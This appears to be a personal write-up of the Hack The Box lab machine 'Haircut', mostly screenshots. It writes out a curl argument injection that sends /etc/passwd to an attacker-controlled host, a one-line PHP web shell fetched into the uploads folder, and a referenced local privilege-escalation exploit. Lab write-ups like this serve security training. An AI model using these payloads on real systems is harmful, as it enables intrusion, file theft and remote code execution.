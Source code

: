 # Haircut - 10.10.10.24

Created: July 9, 2021 5:16 PM

nmap:

![Haircut%20-%2010%2010%2010%2024%20f0c960adfd694f8d85c575d35177d20d/Untitled.png](Haircut%20-%2010%2010%2010%2024%20f0c960adfd694f8d85c575d35177d20d/Untitled.png)

nginx virsion:

![Haircut%20-%2010%2010%2010%2024%20f0c960adfd694f8d85c575d35177d20d/Untitled%201.png](Haircut%20-%2010%2010%2010%2024%20f0c960adfd694f8d85c575d35177d20d/Untitled%201.png)

dirbuster found exposed.php:

![Haircut%20-%2010%2010%2010%2024%20f0c960adfd694f8d85c575d35177d20d/Untitled%202.png](Haircut%20-%2010%2010%2010%2024%20f0c960adfd694f8d85c575d35177d20d/Untitled%202.png)

its using curl

file upload:

![Haircut%20-%2010%2010%2010%2024%20f0c960adfd694f8d85c575d35177d20d/Untitled%203.png](Haircut%20-%2010%2010%2010%2024%20f0c960adfd694f8d85c575d35177d20d/Untitled%203.png)

![Haircut%20-%2010%2010%2010%2024%20f0c960adfd694f8d85c575d35177d20d/Untitled%204.png](Haircut%20-%2010%2010%2010%2024%20f0c960adfd694f8d85c575d35177d20d/Untitled%204.png)

the website runs php. uploading php reverse shell.sadly we dont have permissions to write there.

 

seems like the server use only the curl command and doesnt allow to chain commands. 

curl basic flags:

![Haircut%20-%2010%2010%2010%2024%20f0c960adfd694f8d85c575d35177d20d/Untitled%205.png](Haircut%20-%2010%2010%2010%2024%20f0c960adfd694f8d85c575d35177d20d/Untitled%205.png)

downloading file with -T flag:

query: [http://10.10.14.20](http://10.10.14.20/) -T /etc/passwd -v

![Haircut%20-%2010%2010%2010%2024%20f0c960adfd694f8d85c575d35177d20d/Untitled%206.png](Haircut%20-%2010%2010%2010%2024%20f0c960adfd694f8d85c575d35177d20d/Untitled%206.png)

relevant user:

![Haircut%20-%2010%2010%2010%2024%20f0c960adfd694f8d85c575d35177d20d/Untitled%207.png](Haircut%20-%2010%2010%2010%2024%20f0c960adfd694f8d85c575d35177d20d/Untitled%207.png)

uploading simple re php to /uploads dir:

```php
<?php system($_GET["cmd"]); ?>
```

query:

 [http://10.10.14.20/simple.php](http://10.10.14.20/simple.php) -o uploads/simple.php -v

upload successful:  

![Haircut%20-%2010%2010%2010%2024%20f0c960adfd694f8d85c575d35177d20d/Untitled%208.png](Haircut%20-%2010%2010%2010%2024%20f0c960adfd694f8d85c575d35177d20d/Untitled%208.png)

![Haircut%20-%2010%2010%2010%2024%20f0c960adfd694f8d85c575d35177d20d/Untitled%209.png](Haircut%20-%2010%2010%2010%2024%20f0c960adfd694f8d85c575d35177d20d/Untitled%209.png)

uploading reverse shell file:

![Haircut%20-%2010%2010%2010%2024%20f0c960adfd694f8d85c575d35177d20d/Untitled%2010.png](Haircut%20-%2010%2010%2010%2024%20f0c960adfd694f8d85c575d35177d20d/Untitled%2010.png)

## PE:

kernel and sudo seems vulnerable:

![Haircut%20-%2010%2010%2010%2024%20f0c960adfd694f8d85c575d35177d20d/Untitled%2011.png](Haircut%20-%2010%2010%2010%2024%20f0c960adfd694f8d85c575d35177d20d/Untitled%2011.png)

i'll check that later

![Haircut%20-%2010%2010%2010%2024%20f0c960adfd694f8d85c575d35177d20d/Untitled%2012.png](Haircut%20-%2010%2010%2010%2024%20f0c960adfd694f8d85c575d35177d20d/Untitled%2012.png)

exploit - [https://www.exploit-db.com/exploits/41154](https://www.exploit-db.com/exploits/41154)

cant run it locally on the box so i split the code into 3 files on my host, compile the C code and upload all 3 to the box.

![Haircut%20-%2010%2010%2010%2024%20f0c960adfd694f8d85c575d35177d20d/Untitled%2013.png](Haircut%20-%2010%2010%2010%2024%20f0c960adfd694f8d85c575d35177d20d/Untitled%2013.png)

on second though, ill just compile the first 2 and run the third manually. 

![Haircut%20-%2010%2010%2010%2024%20f0c960adfd694f8d85c575d35177d20d/Untitled%2014.png](Haircut%20-%2010%2010%2010%2024%20f0c960adfd694f8d85c575d35177d20d/Untitled%2014.png)

upload to /tmp: 

![Haircut%20-%2010%2010%2010%2024%20f0c960adfd694f8d85c575d35177d20d/Untitled%2015.png](Haircut%20-%2010%2010%2010%2024%20f0c960adfd694f8d85c575d35177d20d/Untitled%2015.png)

run commands:

![Haircut%20-%2010%2010%2010%2024%20f0c960adfd694f8d85c575d35177d20d/Untitled%2016.png](Haircut%20-%2010%2010%2010%2024%20f0c960adfd694f8d85c575d35177d20d/Untitled%2016.png)
